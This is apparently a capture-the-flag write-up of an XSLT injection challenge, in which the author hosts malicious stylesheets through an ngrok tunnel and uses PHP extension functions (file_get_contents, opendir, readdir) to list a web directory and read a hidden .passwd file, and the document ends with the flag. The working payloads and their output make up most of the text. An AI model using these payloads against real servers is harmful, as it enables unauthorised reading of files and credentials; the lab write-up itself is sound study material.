

Here we can supply our own schema, and by this way get `RCE`.
In my case, this is the payload I supply:
```
https://b39990dfa400.ngrok-free.app/shell.xsl
```
I used ngrok tunnel and also set a http server, to serve `shell.xsl`.

The first payload I try is the `RCE` from payload All the things, to get file-content.

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">

  <xsl:template match="/">
    <xsl:value-of select="php:function('file_get_contents', 'index.php')"/>
  </xsl:template>

</xsl:stylesheet>
```

It's working, so I tried to get the files in directory, using `scandir`:
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">

  <xsl:template match="/">
    <xsl:value-of select="php:function('scandir', '.')"/>
  </xsl:template>

</xsl:stylesheet>
```
I getting only `Array`, and can't get whole files... I tried different approaches and faced dead end.

Then, I encounter this [stackexchange - execute-a-php-function-that-returns-an-array-from-an-xsl-file](https://security.stackexchange.com/questions/170712/execute-a-php-function-that-returns-an-array-from-an-xsl-file), and there i could find the `opendir` and `readdir` trick.

this is what I supply:
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">
 
  <xsl:template match="/">
    <xsl:value-of select="php:function('opendir','.')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
  </xsl:template>

</xsl:stylesheet>
```

And this is what we got:
```
<?xml version="1.0"?>
Resource id #6..beers.xml._nginx.http-level.inc.gitstyle1.xsl._nginx.server-level.incstyle2.xsl._firewall._perms.style3.xslindex.php._php-fpm.pool.inc.6ff3200bee785801f420fba826ffcdeefalsefalsefalsefalsefalsefalsefalsefalsefalsefalsefalse
```
So, the files\directories in this folder are:
```
..
beers.xml
._nginx.http-level.inc
.git
style1.xsl
._nginx.server-level.inc
style2.xsl
._firewall._perms.
style3.xsl
index.php
._php-fpm.pool.inc
.6ff3200bee785801f420fba826ffcdee
```
and we can see this `6ff3200bee785801f420fba826ffcdee` which is looks like the hidden folder

So, we try to see the files in the folder
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">
 
  <xsl:template match="/">
    <xsl:value-of select="php:function('opendir','.6ff3200bee785801f420fba826ffcdee')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
    <xsl:value-of select="php:function('readdir')"/>
  </xsl:template>

</xsl:stylesheet>
```
And we get:
```
Resource id #6...passwd.false
```

Which gives us the files:
```
.
..
.passwd
```

Now, we only need to read it:
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl"
  extension-element-prefixes="php">

  <xsl:template match="/">
    <xsl:value-of select="php:function('file_get_contents', '.6ff3200bee785801f420fba826ffcdee/.passwd')"/>
  </xsl:template>

</xsl:stylesheet>
```

And we get the FLAG!


**Flag:** **_`X5L7_R0ckS`_**
